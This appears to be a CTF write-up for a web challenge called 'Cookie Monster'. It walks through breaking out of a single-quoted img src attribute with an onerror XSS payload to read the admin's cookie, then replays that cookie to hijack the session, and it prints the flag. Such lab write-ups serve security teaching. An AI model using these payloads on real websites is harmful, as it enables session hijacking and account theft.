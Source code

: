 # Cookie Monster
Display use of XSS to steal cookies

<i>Creator - @Platy</i>

## Category
Web

## Question
>Cookie monster has stolen my cookies again! And apparently, he learnt how to create a website to get more cookies! He is accepting nice images from users and running it on his image viewer using what he thinks is the best browser, Internet Explorer. Retrieve the cookie he has that he stole from me! Thanks!
>
>Connect via `http://localhost:44444` and `nc localhost 44445`

### Hint
None.

## Distribution
None.

## Setup Guide
Run `bash start.sh`, do `docker exec -it cookie bash`, enter the shell and do `cd /tmp && python run.py`

## Solution
Upon going on to the website, we can see a nice image viewer. Whatever you placed in the input field, the image will get displayed.

We can try to do some simple XSS by doing `<script>alert(1);</script>` but nothing interesting happens.

Doing `Ctrl-U`, we can see
```html
<h1>HeRe Is YoUr ImAgE!</h1>
<img src='&lt;script&gt;alert(1);&lt;/script&gt;' width="500">
<p><h2>Thank you for using image viewer</h2></p>
<p>Image source : &lt;script&gt;alert(1);&lt;/script&gt;</p>
```

The tags get filtered out. But what's this? The img source uses single quotes instead of double. Perhaps single quotes are not filtered out by `htmlentities()` as it is not the default option

Typing in a single quote and we get this
```html
<img src=''' width="500">
```
Success! Now we know that single quotes are not sanitised. Since this is `<img src>`, we can do `onerror` to run javascript if the image fails to load.

By doing that, we can do `document.write()` with `document.cookie` to view Cookie Monster's cookies.

Upon entering  `' onerror='document.write(document.cookie)`, we get
```html
<html>
  <head></head>
  <body>passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk</body>
</html>
```
Now we can go into the console of chrome and type `document.cookie="passwordzzzzz=1_4m_z3_4dm1n_0f_z15_5173_pl3453_n0_h4ck_d4nk"`

We can now enter and pretend to be cookie monster to get the flag.

### Flag
`GCTF{c_15_f0r_c00k13_4nd_c00k13_15_f0r_m3}`

## Credits
None.

## Recommended Reads
None.
